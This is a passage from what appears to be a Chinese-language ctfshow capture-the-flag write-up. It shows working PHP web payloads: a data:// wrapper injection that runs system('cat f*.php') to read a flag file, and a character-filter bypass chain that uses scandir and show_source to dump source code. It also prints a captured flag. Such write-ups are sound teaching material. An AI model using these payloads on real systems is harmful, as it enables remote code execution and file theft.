 `/?c=data://text/plain,<?php+system("cat+f*.php");?>`

?>为php结束符号，后面拼接的.php会被忽略掉，不用管

flag：ctfshow{f1fbed51-0d0f-4b05-9cb5-7ec88138dd4d}

## Web40

题目：过滤了一堆特殊字符过滤$用不了参数逃逸的方法，过滤 : “ / 不能使用构建文件包含的方法，另外还过滤了一堆东西

![web40_timu](./image/web40_timu.png)

### 方法一：

过滤了一堆东西，不过没过滤 )所以可以使用函数，想到之前web31的方法 ：`/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

![web40_flag](./image/web40_flag.png)
